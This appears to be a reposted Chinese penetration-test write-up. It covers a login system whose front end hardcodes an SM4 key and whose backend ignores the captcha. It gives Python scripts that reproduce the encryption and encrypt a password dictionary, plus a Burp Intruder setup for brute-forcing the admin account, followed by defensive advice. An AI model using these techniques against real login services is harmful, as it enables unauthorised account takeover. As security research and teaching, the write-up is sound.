






# 前端明文密钥+验证码逻辑缺失：一次SM4加密认证系统的暴力破解实战分析-先知社区

> **来源**: https://xz.aliyun.com/news/19254  
> **文章ID**: 19254

---

## 一、概述

在近期对某业务系统的安全评估中，发现其用户登录模块存在安全缺陷：**前端硬编码SM4加密密钥**、**验证码逻辑未实际生效**、**敏感用户凭证可被批量加密用于暴力破解**。仅需简单逆向前端JS代码，即可复现加密逻辑，结合无验证限制的登录接口，实现对管理员账户的定向爆破，最终获取系统权限。

## 二、正文

### 2.1 漏洞成因：前端加密逻辑完全暴露

通过浏览器开发者工具分析前端代码（基于Vue.js），定位到登录函数 `login()` 与加密模块 `efbb`。关键代码如下：



```
// 登录请求封装
Object(i["login"])({
    account: r.trim(),
    password: Object(c["encrypt"])(o),  // 密码经encrypt函数处理
    uuid: s,
    code: l
})
```

进一步追踪 `encrypt` 函数，发现其位于模块 `efbb` 中：



```
var i = n("8060").sm4;                  // 引入sm4库
var r = "E54CFxxxxxxxxxxxx99BE6C"; // 硬编码密钥！
function o(t) {
    return i.encrypt(t, r);             // 使用固定密钥加密
}
```

**致命问题**：

* SM4加密密钥 `E54Cxxxxxxxxxxxxx99BE6C` 以明文形式写死在前端；
* 加密模式、填充方式均可通过逆向 `sm4.js` 库或网络请求反推；
* 可完全复现前端加密流程，将任意明文密码转换为合法密文。

### 2.2 验证码机制形同虚设

尽管前端展示图形滑块验证码，但抓包发现请求体中 `uuid` 与 `code` 字段始终为空：



```
{"account":"admin","password":"582a14732cf52ab9e2ed853f3f9000de","uuid":"","code":""}
```

进一步测试表明：

* 后端未校验 `uuid` 与 `code` 的有效性；
* 即使不触发验证码流程，也可直接提交登录请求；
* **无频率限制、无失败锁定、无IP封禁机制**。

这意味着可无限次发起登录请求，为暴力破解提供理想条件。

### 2.3 暴力破解攻击链构建

#### Step 1：复现SM4加密逻辑

使用Python复现前端SM4加密（ECB模式，PKCS7填充，Hex输出）：

```
from gmssl.sm4 import CryptSM4, SM4_ENCRYPT

def sm4_encrypt(plaintext: str) -> str:
    key = b'E54Cxxxxxxxxxxx999BE6C'
    iv = b'\x00' * 16  # ECB模式无需IV，但部分库需传
    crypt_sm4 = CryptSM4()
    crypt_sm4.set_key(key, SM4_ENCRYPT)
    ciphertext = crypt_sm4.crypt_ecb(plaintext.encode('utf-8'))
    return ciphertext.hex()
```

验证：`sm4_encrypt("123456")` → `582a14732cf52ab9e2ed853f3f9000de`，与抓包一致。

#### Step 2：构建爆破FZZ字典并加密明文输出

```
from gmssl.sm4 import CryptSM4, SM4_ENCRYPT
import binascii

# 泄露的 SM4 密钥（128位，hex）
KEY_HEX = "E54xxxxxxxxxxx999BE6C"
KEY = binascii.unhexlify(KEY_HEX)

def sm4_encrypt_ecb_hex(plaintext: str) -> str:
    """使用 SM4-ECB 加密字符串，返回小写 hex 密文"""
    crypt_sm4 = CryptSM4()
    crypt_sm4.set_key(KEY, SM4_ENCRYPT)
    ciphertext = crypt_sm4.crypt_ecb(plaintext.encode('utf-8'))
    return binascii.hexlify(ciphertext).decode('utf-8').lower()

def main():
    input_file = "./crowPasswd.txt"
    output_file = "jm.txt"

    try:
        with open(input_file, "r", encoding="utf-8") as fin, \
             open(output_file, "w", encoding="utf-8") as fout:

            for line in fin:
                password = line.strip()
                if not password:  # 跳过空行
                    continue
                encrypted = sm4_encrypt_ecb_hex(password)
                fout.write(encrypted + "
")

        print(f"✅ 加密完成！结果已保存至 {output_file}")

    except FileNotFoundError:
        print(f"❌ 错误：未找到输入文件 '{input_file}'")
    except Exception as e:
        print(f"❌ 加密过程中出错: {e}")

if __name__ == "__main__":
    main()
```

#### Step 3：Burp Suite + Intruder 自动化爆破

* **Target**: `POST /apiuser/usr/session/Login`
* **Payload Position**: `{"account":"admin","password":"§payload§",...}`
* **Payloads**: 加密后的密码列表
* **Grep - Match**: 响应体中 `"flag":true` 或 `"token"` 字段

数分钟内成功爆破出 `admin/xxxxxx` 组合，返回JWT Token及用户上下文信息：





成功获取管理员权限，可进一步横向渗透，进入系统后就发现任意文件上传/SQL注入等漏洞利用，笔者这里就体现接管其他账户，在系统中了解了用户名规律后，利用FZZ字典进行爆破，也是成功接管大量不同权限用户。



## 三、总结

### 3.1 技术启示

1. **前端加密 ≠ 安全**  
   任何在客户端执行的加密逻辑，若密钥或算法暴露，均无法抵御逆向分析。敏感操作（如密码处理）必须由服务端完成。
2. **验证码必须前后端联动校验**  
   仅前端展示验证码而无后端验证，等同于无验证。`uuid` 与 `code` 应在服务端绑定会话并严格校验。
3. **国密算法误用风险被低估**  
   SM4等国密算法在Web前端的不当使用，反而因“冷门”特性增加开发者误判，需加强安全编码规范。

### 3.2 防御建议

* **移除前端密码加密逻辑**，改用HTTPS传输明文密码（由服务端加盐哈希存储）；
* **强制验证码校验**：每次登录请求必须携带有效 `uuid` 与 `code`，服务端验证通过后方可处理；
* **实施登录防护策略**：失败5次锁定账户30分钟、IP限速、异常行为告警；
* **密钥管理**：若必须前端加密（如合规要求），应采用动态密钥（如每次从服务端获取临时密钥）。

### 3.3 结语

本次渗透测试揭示了一个典型“**前端自欺式加密**”陷阱。看似“加密传输”的设计，实则因密钥硬编码与验证码失效，反而为攻击者提供了标准化爆破入口。安全不是堆砌加密算法，而是构建端到端的可信链路。开发者应牢记：**客户端的一切皆可被控制，唯有服务端才是可信边界**。

> **注**：本案例已提交至相关单位并完成修复。文中涉及系统为授权测试目标，仅用于技术研究。
